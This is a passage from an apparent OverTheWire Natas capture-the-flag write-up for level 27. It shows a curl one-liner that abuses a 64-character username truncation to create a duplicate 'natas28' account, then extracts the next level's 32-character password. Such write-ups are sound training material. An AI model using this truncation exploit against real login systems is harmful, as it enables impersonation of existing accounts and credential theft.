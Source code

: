 It worked! The extra character was truncated because it past the 64 character limit, leaving us with a new user named `natas28`.

```bash
curl -s "http://natas27:$natas27_pass@natas27.natas.labs.overthewire.org/" --data-urlencode "username=natas28                                                         ." -d "password=password" >/dev/null; curl -s "http://natas27:$natas27_pass@natas27.natas.labs.overthewire.org/index.php?username=natas28&password=password" | sed "s/$natas27_pass//g" | egrep -o [[:alnum:]]{32}
```

[*Back to top*](#overthewire---natas)
